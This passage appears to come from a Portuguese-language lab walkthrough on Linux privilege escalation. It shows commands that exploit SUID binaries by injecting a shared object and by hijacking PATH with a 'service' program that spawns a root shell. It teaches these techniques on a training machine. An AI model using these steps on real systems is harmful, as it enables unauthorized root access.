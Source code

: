 Após compilar, execute novamente o ***/usr/local/bin/suid-so***:

```shell
user@debian:~$ mkdir /home/user/.config
user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# 
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 13 - SUID / SGID Executables - Environment Variables 

O executável ***/usr/local/bin/suid-env*** pode ser explorado por herdar a variável de ambiente PATH do usuário e tentar executar programas sem especificar um caminho absoluto.

Ao executar o arquivo, percebe-se que ele parece estar tentando iniciar o servidor apache2:

```shell
user@debian:~$ /usr/local/bin/suid-env
[....] Starting web server: apache2httpd (pid 1723) already running
. ok 
```
Execute usando o comando strings no arquivo para procurar strings de caracteres imprimíveis:

```shell
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

Uma linha ("service apache2 start") sugere que o executável do serviço está sendo chamado para iniciar o servidor web, porém o caminho completo do executável (***/usr/sbin/service***) não está sendo usado.

Compile o código localizado em ***/home/user/tools/suid/service.c*** em um executável chamado ***service***. Este código simplesmente gera um shell Bash:

```shell
gcc -o service /home/user/tools/suid/service.c
```
Anexe o diretório atual (ou onde o novo executável do serviço está localizado) para a variável PATH e execute o executável suid-env para obter um shell com elevação de privilégios:
